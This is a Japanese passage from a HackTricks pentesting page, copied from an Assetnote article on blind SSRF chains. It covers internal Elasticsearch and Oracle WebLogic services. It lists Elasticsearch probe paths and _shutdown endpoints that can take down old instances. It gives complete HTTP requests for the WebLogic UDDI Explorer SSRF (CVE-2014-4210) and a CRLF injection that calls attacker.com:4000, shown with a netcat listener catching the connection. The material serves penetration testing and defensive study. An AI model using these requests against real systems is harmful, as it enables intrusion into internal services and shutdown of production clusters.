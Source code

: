 <details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>


このセクションは[https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/](https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/)からコピーされました。

# Elasticsearch

**一般的にバインドされるポート: 9200**

Elasticsearchが内部で展開されている場合、通常は認証が必要ありません。

部分的にブラインドなSSRFがある場合、ステータスコードを判断できる場合、次のエンドポイントが200を返すかどうかを確認してください:
```http
/_cluster/health
/_cat/indices
/_cat/health
```
もし、POSTリクエストを送信できる盲目的なSSRFがある場合、次のパスにPOSTリクエストを送信することでElasticsearchインスタンスをシャットダウンすることができます。

注意：Elasticsearchバージョン2.x以降では、`_shutdown` APIは削除されています。これはElasticsearch 1.6以前でのみ機能します。
```http
/_shutdown
/_cluster/nodes/_master/_shutdown
/_cluster/nodes/_shutdown
/_cluster/nodes/_all/_shutdown
```
# Weblogic

**一般的にバインドされるポート: 80, 443 (SSL), 7001, 8888**

**SSRF カナリア: UDDI Explorer (CVE-2014-4210)**
```http
POST /uddiexplorer/SearchPublicRegistries.jsp HTTP/1.1
Host: target.com
Content-Length: 137
Content-Type: application/x-www-form-urlencoded

operator=http%3A%2F%2FSSRF_CANARY&rdoSearch=name&txtSearchname=test&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search
```
これはGETでも機能します：
```bash
http://target.com/uddiexplorer/SearchPublicRegistries.jsp?operator=http%3A%2F%2FSSRF_CANARY&rdoSearch=name&txtSearchname=test&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search
```
このエンドポイントもCRLFインジェクションの脆弱性があります:
```
GET /uddiexplorer/SearchPublicRegistries.jsp?operator=http://attacker.com:4000/exp%20HTTP/1.11%0AX-CLRF%3A%20Injected%0A&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search HTTP/1.0
Host: vuln.weblogic
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
Connection: close
```
次のリクエストになります：
```
root@mail:~# nc -lvp 4000
Listening on [0.0.0.0] (family 0, port 4000)
```
